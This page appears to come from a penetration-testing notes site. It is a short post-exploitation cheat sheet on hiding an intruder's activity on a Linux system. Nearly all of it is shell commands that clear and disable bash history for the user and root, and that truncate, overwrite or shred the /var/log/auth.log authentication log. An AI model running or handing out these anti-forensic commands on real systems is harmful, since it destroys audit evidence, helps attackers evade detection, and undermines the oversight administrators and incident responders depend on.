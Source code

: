 ```yaml
---
title: Cover Your Tracks in Linux
description: After exploitation in Linux system, attackers want to erase their activities and be undetectable.
tags:
    - Post Exploitation
refs:
    - https://null-byte.wonderhowto.com/how-to/clear-logs-bash-history-hacked-linux-systems-cover-your-tracks-remain-undetected-0244768/
    - https://www.poplabsec.com/how-to-cover-your-tracks-on-linux/
date: 2023-11-15
draft: false
---
```


## Clear History

```bash
unset HISTORY
echo '' > ~/.bash_history
echo '' > /root/.bash_history
history -c
export HISTSIZE=0
unset HISTFILE
```

<br />

## Clear Logs

```bash
# Shrink the size of log files with `truncate -s 0`
truncate -s 0 /var/log/auth.log
echo '' > /var/log/auth.log
cat /dev/null > /var/log/auth.log
> /var/log/auth.log
dd if=/dev/null of=/var/log/auth.log
shred /var/log/auth.log
```